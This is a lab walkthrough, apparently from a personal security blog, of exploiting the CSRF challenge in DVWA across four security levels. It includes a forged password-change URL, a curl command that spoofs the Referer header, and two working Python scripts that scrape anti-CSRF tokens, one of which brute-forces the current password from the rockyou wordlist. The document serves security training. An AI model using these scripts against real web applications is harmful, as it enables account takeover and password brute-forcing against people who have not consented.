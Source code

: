 +++
date = '2025-10-16T14:55:40+07:00'
draft = false
title = 'DVWA CSRF Low/Medium/High Security'
tags = ['DVWA']
description = 'CSRF attack change any accounts passwords.'

[cover]
  image = '/images/posts/dvwa-csrf.jpg'
  alt = 'DVWA CSRF'
  caption = 'DVWA CSRF'
  relative = false
+++

## Description

-   **Vulnerability:** CSRF
-   **Impact:** CSRF attack change any accounts' passwords.

---

## LOW Security Level

Make a change password request for testing and inspecting the Network I can see the change password request is a GET request with `password_new` and `password_conf` params:

```
http://localhost/DVWA/vulnerabilities/csrf/?password_new=123&password_conf=123&Change=Change
```

We can send this URL to trick any users to click on and their accounts' password will be changed.

## MEDIUM Security Level

In this MEDIUM level, it has a check condition before executing code:

```php
if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false ) {
// The code
} else {
    // Didn't come from a trusted source
    echo "<pre>That request didn't look correct.</pre>";
}
```

So, we can add a header to this request to change the password (I use a basic `curl` command):

```bash
curl "http://localhost/DVWA/vulnerabilities/csrf/?password_new=123&password_conf=123&Change=Change" -H "Referer: http://localhost/DVWA/vulnerabilities/csrf/" -b "security=medium; PHPSESSID=<YOUR_SESSION_ID>"
```

This command will change the password.

## HIGH Security Level

THis HIGH security level is similar to Brute-force HIGH security level. They both add a `CSRF Token` to validate before executing the logic.

You can see here there is a check anti CSRF Token

```php
// Check Anti-CSRF token
checkToken( $token, $_SESSION[ 'session_token' ], 'index.php' );

// Generate Anti-CSRF token
generateSessionToken();
```

Also, if you inspect the form in browser you will see a hidden input:

```html
<input type="hidden" name="user_token" value="<RANDOM_USER_TOKEN>" />
```

So the workflow is:

1. Make a GET request and take the created CSRF token firstly.
2. Make a GET request like other two levels but we also add a `user_token` param to pass the check.

I have created a exploit Python code:

```python
import requests
import re

baseUrl = "http://localhost/DVWA/vulnerabilities/csrf/"

cookies = {
    "PHPSESSID": "<YOUR_SESS_ID>",
    "security": "high"
}

pattern = r"name='user_token' value='([a-fA-F0-9]+)'"

def getCSRFToken():
    try:
        # Take CSRF Token
        res = requests.get(baseUrl, cookies=cookies)

        match = re.search(pattern, res.text)
        if match:
            token = match.group(1)

            return token
        else:
            print("Failed to taken token")
            return False
    except requests.exceptions.RequestException as e:
        print("Request error:", e)

def changePassword(user_token):
    newPassword = input('Enter new password: ')

    headers = {
        "Referer": "http://localhost/DVWA/vulnerabilities/csrf/"
    }

    url = baseUrl + f"?password_new={newPassword}&password_conf={newPassword}&Change=Change&user_token={user_token}"

    try:
        res = requests.get(url, cookies=cookies, headers=headers)

        if "Password Changed" in res.text:
            print('Successfully change password')
        else:
            print('Failed to change password')
            print(res.text)
    except requests.exceptions.RequestException as e:
        print("Request error:", e)

user_token = getCSRFToken()
if (user_token):
    changePassword(user_token)
```

## IMPOSSIBLE Security Level

This level seems to impossible to exploit. However, there is a vulnerability: this level requires a new value which is `password_current` in order to check if the user know the current password before changing the new one.

This seems to be secure however unlike the IMPOSSIBLE level of brute-force it will have several checks and also limit the errors. Therefore, in that IMPOSSIBLE brute-force it is kinda hard to brute-force the password. However, this IMPOSSIBLE level in CSRF doesn't check like that.

=> We can brute-force the current password then change new one (even though we doesn't know the current password).

This is my created Python exploit code:

```python
import requests
import re

baseUrl = "http://localhost/DVWA/vulnerabilities/csrf/"

cookies = {
    "PHPSESSID": "<YOUR_SESSS_ID>",
    "security": "impossible"
}

pattern = r"name='user_token' value='([a-fA-F0-9]+)'"

def getCSRFToken():
    try:
        # Take CSRF Token
        res = requests.get(baseUrl, cookies=cookies)

        match = re.search(pattern, res.text)
        if match:
            token = match.group(1)

            return token
        else:
            print("Failed to taken token")
            return False
    except requests.exceptions.RequestException as e:
        print("Request error:", e)

def changePassword():
    newPassword = input('Enter new password: ')

    headers = {
        "Referer": "http://localhost/DVWA/vulnerabilities/csrf/"
    }

    try:
        with open('/usr/share/wordlists/rockyou.txt') as file:
            for line in file:
                password = line.rstrip()

                user_token = getCSRFToken()

                if not user_token:
                    print('Failed to fetch token')
                    continue


                url = baseUrl + f"?password_current={password}&password_new={newPassword}&password_conf={newPassword}&Change=Change&user_token={user_token}"

                try:
                    print(f'Attempting {password}')
                    res = requests.get(url, cookies=cookies, headers=headers)

                    if "Password Changed" in res.text:
                        print()
                        print(f'Found current password: {password}')
                        print('Successfully change password')
                        exit()
                except requests.exceptions.RequestException as e:
                    print("Request error:", e)
    except FileNotFoundError as e:
        print("File not found:", e)

changePassword()
```

## Resources

-   https://owasp.org/www-community/attacks/csrf
-   https://www.cgisecurity.com/csrf-faq.html
-   https://en.wikipedia.org/wiki/Cross-site_request_forgery

